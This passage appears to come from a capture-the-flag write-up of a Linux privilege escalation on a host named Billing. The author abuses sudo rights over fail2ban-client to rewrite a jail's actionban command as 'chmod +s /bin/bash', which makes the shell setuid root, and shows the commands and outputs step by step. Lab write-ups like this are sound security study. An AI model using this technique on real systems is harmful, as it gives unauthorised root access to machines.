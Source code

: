 - Now let's see what's actually there with `ls -al`
  ```
  ls -al /etc/fail2ban 
  total 84K
  drwxr-xr-x   6 root root 4.0K Mar 27  2024 .
  drwxr-xr-x 136 root root  12K May  1 11:51 ..
  drwxr-xr-x   2 root root 4.0K Mar 27  2024 action.d
  -rw-r--r--   1 root root 2.8K Nov 23  2020 fail2ban.conf
  drwxr-xr-x   2 root root 4.0K Jul 11  2021 fail2ban.d
  drwxr-xr-x   3 root root 4.0K Mar 27  2024 filter.d
  -rw-r--r--   1 root root  25K Nov 23  2020 jail.conf
  drwxr-xr-x   2 root root 4.0K Mar 27  2024 jail.d
  -rw-r--r--   1 root root 1.7K Mar 27  2024 jail.local
  -rw-r--r--   1 root root  645 Nov 23  2020 paths-arch.conf
  -rw-r--r--   1 root root 2.8K Nov 23  2020 paths-common.conf
  -rw-r--r--   1 root root  573 Nov 23  2020 paths-debian.conf
  -rw-r--r--   1 root root  738 Nov 23  2020 paths-opensuse.conf
  ```

- OK cool, this is where hell actually started for me, I'll put the link at the end that I was following to gain root access but couldn't do it that way. I'll also post some commands that I tried as well.

- So I check `fail2ban server status` and `jail configuration`.
  ```
  asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client status
  Status
  |- Number of jail:      8
  `- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

  cat /etc/fail2ban/jail.local
  [asterisk-iptables]
  enabled  = true
  filter   = asterisk
  action   = iptables-allports[name=ASTERISK, port=all, protocol=all]
  logpath  = /var/log/asterisk/messages
  maxretry = 5
  bantime = 600
  ```

- Now comes exploitation. First, retrieve the current set.
  ```
  asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client get asterisk-iptables actions
  The jail asterisk-iptables has the following actions:
  iptables-allports-ASTERISK
  ```

- Next, modify the command for the `actionban` in the `iptables-allports-ASTERISK` action, which is executed when banning an IP for the asterisk-iptables jail.
  ```
  asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
  <iptables> -I f2b-ASTERISK 1 -s <ip> -j <blocktype>
  
  asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
  chmod +s /bin/bash
  
  asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
  chmod +s /bin/bash
  
  asterisk@Billing:/home/magnus$ 
  ```
